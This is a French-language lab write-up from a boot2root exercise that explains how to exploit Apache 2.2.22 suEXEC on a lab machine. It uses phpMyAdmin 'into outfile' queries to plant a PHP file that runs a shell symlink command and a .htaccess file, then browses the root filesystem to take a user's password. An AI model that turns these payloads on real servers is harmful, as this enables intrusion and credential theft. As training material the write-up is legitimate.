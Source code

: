 ## BONUS 6
### APACHE

Lorsque nous lancons la commande suivante : 

```
nikto -h https://192.168.1.135
```

Nous pouvons voir sur le retour la ligne suivante :
```
+ Apache/2.2.22 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
```

Essayons donc de trouver des vulnerabilités pour cette version de Apache..
Pour cela allons faire un tour sur le site suivant :

[exploit-db](https://www.exploit-db.com/)

Dans la barre de recherche nous rentrons apache privilege et regardons les exploit disponibles :

[b2r_4](../photos/b2r_4.png)

Nous allons aller sur Apache suEXEC et etudier l'exploit comme c'est le seul disponible en remote.

En bas de l'explication on voit bien que la version est la meme que la notre (Apache 2.2.22), c'est deja bon signe.

La fonctionnalité suEXEC offre aux utilisateurs d'Apache la possibilité d'exécuter des programmes CGI et SSI sous des identifiants différents de l'identifiant du serveur web appelant

Avant toute chose il va falloir se connecter sur phpmyadmin avec les identifiants que nous avons deja trouvé.

On va créer un fichier suexec.php dans /var/www/forum/templates_c avec le code suivant :

```
<?php
	system("ln -sf / test99.php");
	symlink("/", "test99.php");
?>

select '<?php system(\"ln -sf / test99.php\"); symlink(\"/\", \"test99.php\"); ?>' into outfile "/var/www/forum/templates_c/suexec.php"
```

Puis depuis phpmyadmin encore une fois  on va creer un fichier .htaccess avec a l'interieur :

```
Options Indexes FollowSymLinks

select "Options Indexes FollowSymLinks" into outfile "/var/www/forum/templates_c/.htaccess"
```

On execute suexec.php via le browser ou avec curl :

```
curl --insecure https://192.168.1.135/forum/templates_c/suexec.php
```

Ensuite on appelle la page test99.php directement avec le browser

```
https://192.168.1.135/forum/templates_c/test99.php
```

Et finalement nous avons :

[b2r_5](../photos/b2r_5.png)

Il ne nous reste plus qu'a aller dans le /home, recuperer le password de laurie et continuer l'exploit comme dans le writeup1.md pour arriver root !
